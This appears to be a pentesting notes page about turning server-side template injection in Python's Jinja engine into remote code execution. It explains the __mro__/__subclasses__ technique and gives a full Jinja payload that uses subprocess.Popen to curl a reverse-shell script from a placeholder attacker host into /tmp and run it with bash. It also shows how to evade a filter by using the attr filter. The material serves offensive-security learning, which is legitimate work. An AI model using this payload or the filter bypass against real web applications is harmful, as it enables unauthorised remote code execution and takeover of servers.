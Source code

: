 ```yaml
---
title: Pwning Jinja 2
tags:
  - advanced
  - pentesting
  - jinja
  - server
  - side
  - template
  - injection
  - python
  - web-app
---
```


## RCE w/ Jinja templates

In our previous article on
[[server-side-template-injection#Leaking sensitive information from Jinja|server-side template injection (SSTI) attacks against Jinja]],
we only discussed leaking sensitive information using some Python builtins. That doesn't do SSTI
against Jinja must justice because we can _definitely_ gain remote code execution (RCE) with a
little bit of elbow grease.

What have to realize with Jinja is that we have access to _all_ of the Python packages, classes,
types, methods, etc. imported by the web application and currently available in the Python runtime
at time of template injection. This means we have access to things like `subprocess.Popen`, `os`,
`sys` etc.

Using the following dark magic, we can expose all classes available to us in the Python runtime
through Jinja template injection:

```python
{{ dict.mro()[-1].__subclasses__() }}
```

What do these incantations mean? `mro` stands for **Method Resolution Order (MRO)** and it's a
method inherited by every Python class that exposes the class order an object searches to find the
implementation of a method in any of its parent classes. In the snippet above, we use the
`<class 'object'>` class, always the last class in the MRO, to obtain access to all the subclasses
of the `<class 'object'>` class.

The `<class 'object'>` class is the parent of _all_ classes implemented in Python, giving us access
to all global class definitions in the current runtime. Finally, we call the special
`__subclasses__` method that gives us a reference to all the subclasses of the `<class 'object'>`
class in the current Python runtime, giving us the ability to instantiate arbitrary objects for any
class in the current runtime. More on these builtin classes can be found below:

- [MRO](https://docs.python.org/3/reference/datamodel.html#type.__mro__)
- [\_\_subclasses\_\_](https://docs.python.org/3/reference/datamodel.html#type.__subclasses__)

The following snippet is a Jinja template that uses `subprocess.Popen` to download a reverse shell
`bash` script from the attacker host to the victim host, saving it to `/tmp/reverse` and then
executing `/tmp/reverse` in `bash` to initiate a reverse shell callback to the attacker host:

```python
{% set string = "" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[-1]|attr(subclasses)() %}
{{ subclasses_r }}
{% if subclasses_r[570](["curl", "http://{ATTACKER_HOST}:{ATTACKER_PORT}/reverse", "-o", "/tmp/reverse"]) %}
	{{ subclasses_r[570](["bash", "/tmp/reverse"]) }}
{% endif %}
```

Be wary of the index reference `subclasses_r[570]` - this won't always be the same for all Python
web applications vulnerable to Jinja SSTI. Like I mentioned earlier, every time a Python web
application starts, the `__subclasses__` order _will_ change. Thus, we have to expose the entire
list of `__subclasses__` first, find the index of the `subprocess.Popen` subclass in the
`__subclasses__` list, and then use that for our follow-up RCE payload.

### Bypassing Jinja template filters

The above snippet provides an example of bypassing Jinja template filters. In our case, we were
avoiding the following bad characters:

- `.__` The Python web application would reject templates with any characters following that exact
  pattern. In order to access the `__mro__` and `__subclasses__` attributes of our `string` and
  `<class 'object'>` classes, we used the Jinja `attr` function to access class attributes and
  methods. We also used the Jinja `{%%}` directives to store the outcomes of our attribute and
  method calls.

We also use `{% if %}` and `{% endif %}` to spawn our download and execute `subprocess.Popen` calls
consecutively instead of in parallel. More or bypassing Jinja template filters, or just really good
example payloads, can be found on HackTricks:

- [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects)

## Related pages

- [[reversing-python-web-applications|Reversing Python web applications]]
- [[server-side-template-injection|Server-side template injection]]
